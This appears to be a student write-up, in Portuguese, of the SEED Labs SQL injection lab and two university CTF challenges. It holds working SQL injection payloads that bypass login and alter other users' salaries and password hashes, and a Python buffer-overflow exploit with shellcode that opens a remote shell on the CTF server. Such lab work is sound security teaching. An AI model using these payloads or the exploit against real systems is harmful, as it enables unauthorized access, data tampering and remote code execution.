







# SEED Labs - SQL Injection Attack Lab

## Task 1 - Get Familiar with SQL Statements

Primeiro, fez-se _login_ (username **root** e password ***dees***), carregou-se a base de dados `sqllab_users` utilizando o comando `use` e verificou-se, com o comando `show tables`, que existe uma tabela - `credential`.

```bash
[11/19/22]seed@VM:~/.../Labsetup$ dockps
6074ccf2f4d9  www-10.9.0.5
0cc64c426c3e  mysql-10.9.0.6
[11/19/22]seed@VM:~/.../Labsetup$ docksh 0c
root@0cc64c426c3e:/# mysql -u root -pdees
(...)
mysql> use sqllab_users;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+------------------------+
| Tables_in_sqllab_users |
+------------------------+
| credential             |
+------------------------+
1 row in set (0.00 sec)
```

De seguida, utilizou-se a seguinte _query_ SQL para filtrar (da tabela `credential`) e imprimir toda (*) a informação da empregada `Alice`.

```sql
mysql> SELECT * FROM credential WHERE Name='Alice';
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
| ID | Name  | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
|  1 | Alice | 10000 |  20000 | 9/20  | 10211002 |             |         |       |          | fdbe918bdae83000aa54747fc95fe0470fff4976 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
1 row in set (0.00 sec)
```

## Task 2: SQL Injection Attack on SELECT Statement

O seguinte código PHP `unsafe_home.php` contém uma `SQL injection vulnerability`, uma vez que, qualquer input dado pelo utilizador no form é usado diretamente para construir a _query_ SQL.

- unsafe_home.php
```php
$input_uname = $_GET['username'];
$input_pwd = $_GET['Password'];
$hashed_pwd = sha1($input_pwd);
...
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,nickname, Password
        FROM credential
        WHERE name= '$input_uname' and Password='$hashed_pwd'";
$result = $conn -> query($sql);
```

### Task 2.1: SQL Injection Attack from webpage

Escrevendo uma string aleatória (`anything`) no campo `Password` e `admin'#` no campo `Username`, a _query_ SQL será a seguinte:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
FROM credential
WHERE name='admin'#' and Password='anything'
``` 

Uma vez que, tudo o que está à direita de `#` até ao final dessa linha é considerado um comentário, a _query_ SQL é equivalente a:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
FROM credential
WHERE name='admin'
``` 



Com os carateres especiais `'` e `#` é possível alterar o significado da _query_, isto é, fazer uma autenticação como administrador utilizando o nome da conta (`admin`) que era conhecido, mas não conhecendo a password. Pode ser escrita qualquer string no campo `Password` ou até mesmo nada neste caso, tal como mostra o _screenshot_ acima. Como era esperado o acesso aos dados de todos os empregados foi garantido:



### Task 2.2: SQL Injection Attack from command line

Semelhante à tarefa anterior, mas a partir da command line. Tendo em conta o exemplo fornecido e como `'` e `#` são carateres especiais, estes precisam de ser codificados. Então, usou-se o %27 e o %23, respetivamente.

```sh
[11/21/22]seed@VM:~/.../Labsetup$ curl 'www.seed-server.com/unsafe_home.php?username=admin%27%23&Password='
<!--
SEED Lab: SQL Injection Education Web plateform
Author: Kailiang Ying
Email: kying@syr.edu
-->

<!--
SEED Lab: SQL Injection Education Web plateform
Enhancement Version 1
Date: 12th April 2018
Developer: Kuber Kohli

Update: Implemented the new bootsrap design. Implemented a new Navbar at the top with two menu options for Home and edit profile, with a button to
logout. The profile details fetched will be displayed using the table class of bootstrap with a dark table head theme.

NOTE: please note that the navbar items should appear only for users and the page with error login message should not have any of these items at
all. Therefore the navbar tag starts before the php tag but it end within the php script adding items as required.
-->

<!DOCTYPE html>
<html lang="en">
<head>
  <!-- Required meta tags -->
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

  <!-- Bootstrap CSS -->
  <link rel="stylesheet" href="css/bootstrap.min.css">
  <link href="css/style_home.css" type="text/css" rel="stylesheet">

  <!-- Browser Tab title -->
  <title>SQLi Lab</title>
</head>
<body>
  <nav class="navbar fixed-top navbar-expand-lg navbar-light" style="background-color: #3EA055;">
    <div class="collapse navbar-collapse" id="navbarTogglerDemo01">
      <a class="navbar-brand" href="unsafe_home.php" ></a>

      <ul class='navbar-nav mr-auto mt-2 mt-lg-0' style='padding-left: 30px;'><li class='nav-item active'><a class='nav-link' href='unsafe_home.php'>Home <span class='sr-only'>(current)</span></a></li><li class='nav-item'><a class='nav-link' href='unsafe_edit_frontend.php'>Edit Profile</a></li></ul><button onclick='logout()' type='button' id='logoffBtn' class='nav-link my-2 my-lg-0'>Logout</button></div></nav><div class='container'><br><h1 class='text-center'><b> User Details </b></h1><hr><br><table class='table table-striped table-bordered'><thead class='thead-dark'><tr><th scope='col'>Username</th><th scope='col'>EId</th><th scope='col'>Salary</th><th scope='col'>Birthday</th><th scope='col'>SSN</th><th scope='col'>Nickname</th><th scope='col'>Email</th><th scope='col'>Address</th><th scope='col'>Ph. Number</th></tr></thead><tbody><tr><th scope='row'> Alice</th><td>10000</td><td>20000</td><td>9/20</td><td>10211002</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Boby</th><td>20000</td><td>30000</td><td>4/20</td><td>10213352</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ryan</th><td>30000</td><td>50000</td><td>4/10</td><td>98993524</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Samy</th><td>40000</td><td>90000</td><td>1/11</td><td>32193525</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Ted</th><td>50000</td><td>110000</td><td>11/3</td><td>32111111</td><td></td><td></td><td></td><td></td></tr><tr><th scope='row'> Admin</th><td>99999</td><td>400000</td><td>3/5</td><td>43254314</td><td></td><td></td><td></td><td></td></tr></tbody></table>      <br><br>
      <div class="text-center">
        <p>
          Copyright &copy; SEED LABs
        </p>
      </div>
    </div>
    <script type="text/javascript">
    function logout(){
      location.href = "logoff.php";
    }
    </script>
  </body>
  </html>
```

### Task 2.3: Append a new SQL statement

Experimentou-se correr duas (múltiplas) _SQL statements_. No entanto, como era esperado, não fomos bem sucedidos e tivemos a seguinte mensagem de erro:



Este erro ocorre por causa de uma medida de prevenção implementada em `unsafe_home.php`, que é o uso de `mysqli::query()` (da extensão `mysqli` do PHP), cuja API não permite que múltiplas _queries_ sejam executadas no servidor da _database_, devido ao potencial risco de uma _SQL Injection_.
Poderíamos ultrapassar esta limitação, usando `mysqli()::multiquery()`.

Fonte:
- SEED book (12.3.3 Multiple SQL Statements)

"Such an attack does not work against MySQL, because in PHP's mysqli extension, the mysqli::query() API does not allow multiple queries to run in the database server. This is due to the concern of SQL injection. [...] It should be noted that the MySQL database server does allow multiple SQL statements to be included in one statement string. If we do want to run multiple SQL statements, we can use $mysqli->multLquery()."

## Task 3: SQL Injection Attack on UPDATE Statement

### Task 3.1: Modify your own salary

Foi feita a autenticação como Alice, por exemplo, usando a vulnerabilidade da tarefa anterior (escrevendo `Alice'#` no campo `Username`). De seguida, ao editar o perfil, escreveu-se `', salary='999999` no campo `NickName` e os outros campos ficaram vazios, logo a _query_ SQL será a seguinte:

```sql
UPDATE credential SET
  nickname='', salary='999999',
  email='',
  address='',
  Password='',
  PhoneNumber=''
WHERE ID=$id;
```

O código implementado em `unsafe_edit_backend.php` contém a mesma vulnerabilidade explicada na tarefa anterior, ou seja, também é possível alterar o significado da _query_. Neste caso, foi acrescentado um atributo/coluna que era conhecido - `salary`. Assim, estamos a alterar o salário da Alice para 999999.



Pela figura em baixo podemos confirmar que o valor do salário foi realmente alterado.



### Task 3.2: Modify other people' salary

Para esta tarefa, usou-se um raciocínio semelhante ao da tarefa anterior. Desta vez escreveu-se `', salary='1' WHERE Name='Boby';#` no campo `NickName` (e os outros campos ficaram vazios) na página de editar o perfil da Alice. Desta maneira, a _query_ SQL será alterada para a seguinte:

```sql
UPDATE credential SET
  nickname='', salary='1' WHERE Name='Boby';#',
  email='',
  address='',
  Password='',
  PhoneNumber=''
WHERE ID=$id;
```

Com isto, estamos a alterar o salário do Boby (boss) para 1 como pretendido.



Ao executar a _query_, podemos confirmar que realmente o salário do Boby foi alterado para 1.

```
mysql> SELECT * FROM credential;
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
| ID | Name  | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
|  1 | Alice | 10000 | 999999 | 9/20  | 10211002 |             |         |       |          | fdbe918bdae83000aa54747fc95fe0470fff4976 |
|  2 | Boby  | 20000 |      1 | 4/20  | 10213352 |             |         |       |          | b78ed97677c161c1c82c142906674ad15242b2d4 |
|  3 | Ryan  | 30000 |  50000 | 4/10  | 98993524 |             |         |       |          | a3c50276cb120637cca669eb38fb9928b017e9ef |
|  4 | Samy  | 40000 |  90000 | 1/11  | 32193525 |             |         |       |          | 995b8b8c183f349b3cab0ae7fccd39133508d2af |
|  5 | Ted   | 50000 | 110000 | 11/3  | 32111111 |             |         |       |          | 99343bff28a7bb51cb6f22cb20a618701a2c2f58 |
|  6 | Admin | 99999 | 400000 | 3/5   | 43254314 |             |         |       |          | a5bdf35a1df4ea895905f6f6618e83951a6effc0 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
6 rows in set (0.00 sec)
```

### Task 3.3: Modify other people' password

Pretende-se alterar a password do Boby, por exemplo para `1234`. A diferença em relação à tarefa anterior é o atributo a ser modificado, neste caso é `Password` em vez de `salary`. Sendo assim, escreveu-se `', Password='7110eda4d09e062aa5e4a390b0a572ac0d2c0220' WHERE Name='Boby';#` no campo `NickName` (e os outros campos ficaram vazios) na página de editar o perfil da Alice. Desta maneira, a _query_ SQL será alterada para a seguinte:

```sql
UPDATE credential SET
  nickname='', Password='7110eda4d09e062aa5e4a390b0a572ac0d2c0220' WHERE Name='Boby';#',
  email='',
  address='',
  Password='',
  PhoneNumber=''
WHERE ID=$id;
``` 

Tal como é dito, "database stores the hash value of passwords instead of the plaintext password string. [...] It uses SHA1 hash function to generate the hash value of password". Como o resultado de `SHA1` da string `1234` é `7110eda4d09e062aa5e4a390b0a572ac0d2c0220`, foi usado `Password='7110eda4d09e062aa5e4a390b0a572ac0d2c0220'` em vez de `Password='1234'`.

Assim, podemos confirmar que a password foi alterada na tabela `credential` para `7110eda4d09e062aa5e4a390b0a572ac0d2c0220`:

```sh
mysql> SELECT * FROM credential;
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
| ID | Name  | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
|  1 | Alice | 10000 | 999999 | 9/20  | 10211002 |             |         |       |          | fdbe918bdae83000aa54747fc95fe0470fff4976 |
|  2 | Boby  | 20000 |      1 | 4/20  | 10213352 |             |         |       |          | 7110eda4d09e062aa5e4a390b0a572ac0d2c0220 |
|  3 | Ryan  | 30000 |  50000 | 4/10  | 98993524 |             |         |       |          | a3c50276cb120637cca669eb38fb9928b017e9ef |
|  4 | Samy  | 40000 |  90000 | 1/11  | 32193525 |             |         |       |          | 995b8b8c183f349b3cab0ae7fccd39133508d2af |
|  5 | Ted   | 50000 | 110000 | 11/3  | 32111111 |             |         |       |          | 99343bff28a7bb51cb6f22cb20a618701a2c2f58 |
|  6 | Admin | 99999 | 400000 | 3/5   | 43254314 |             |         |       |          | a5bdf35a1df4ea895905f6f6618e83951a6effc0 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
6 rows in set (0.00 sec)
```

Como seria de esperar, conseguimos fazer login com a nova password - `1234`.



# CTF - Semanas 8 e 9

## Desafio 1

O objetivo deste desafio é fazer login no site como "admin". Ao analisar o ficheiro `index.php`, que está a correr no servidor, conseguimos identificar a query utilizada para validar a existência na base de dados de um utilizador com as credenciais inseridas.

```php
(...)

$username = $_POST['username'];
$password = $_POST['password'];
               
$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";

(...)
```

Podemos perceber que as credenciais inseridas pelo utilizador, e que são enviadas no pedido, são concatenadas na string que representa a query, sem qualquer tipo de proteção, o que torna esta query vulnerável a uma SQL injection. Existem várias formas de explorar esta vulnerabilidade para conseguir fazer login como qualquer utilizador deste serviço ("admin" neste caso). No nosso caso, usamos a string `admin` como username e `' OR 1=1;--` como password. Desta forma, a condição do `WHERE` será sempre verdadeira.

A query resultante seria:
```sql
SELECT username FROM user WHERE username = 'admin' AND password = '' OR 1=1; --'
```

## Desafio 2

Output do `checksec`:
```
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      PIE enabled
RWX:      Has RWX segments
```
A única proteção no executável é PIE(Position Independent Executable). Atendendo a isto, percebemos que é possível realizar um ataque `buffer overflow`

Ao analisar o ficheiro `main.c` encontramos a vulnerabilidade que nos permite realizar esse ataque.
```c
char buffer[100];

(...)

gets(buffer);
```
A função `gets` lê caracteres do standard input, até encontrar uma nova linha ou um `EOF`, sem limite ao número de caracteres, o que neste caso nos permite escrever além dos 100 bytes reservados para `buffer`. O programa também dá output ao endereço de `buffer` a cada execução, pelo que podemos usá-lo para calcular o return address.

O script que usamos abre uma conexão ao servidor, faz parsing da mensagem recebida para obter o endereço e cria um payload com shellcode de modo a abrir uma shell remotamente. Com a shell criada, fazemos `cat flag.txt` para obter o valor da flag.

exploit.py
```python
import sys, socket
from pwn import remote, process

# 32bit shellcode
shellcode = (
  '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f'
  '\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31'
  '\xd2\x31\xc0\xb0\x0b\xcd\x80'
).encode('latin-1')

def exploit(hostname, port):
    r = remote(hostname, port)
    # r = process('./program')

    data = r.recv(1024).decode('utf-8')

    # Get second line
    l = data.split('\n')[1]

    # Get buffer address as an integer
    index = l.index('0x')
    addr = int(l[index:index+10], 16)

    # Return Address = Buffer Address + Buffer Size + Frame Pointer Size + Offset
    ret = addr + 100 + 4 + 50

    # Fill the payload with NOP's
    payload = bytearray(0x90 for i in range(400)) 

    # Place shellcode at the very end of the payload
    start = 400 - len(shellcode)
    payload[start:start + len(shellcode)] = shellcode

    # Buffer size is 100 bytes
    # +4 (probably because of alignment)
    # +4 because return address comes after the frame pointer ($ebp)
    offset = 100 + 4 + 4

    L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
    payload[offset:offset + L] = (ret).to_bytes(L, byteorder='little')

    r.send(payload)
    r.interactive()

hostname = 'ctf-fsi.fe.up.pt'
port = 4001

exploit(hostname, port)
```


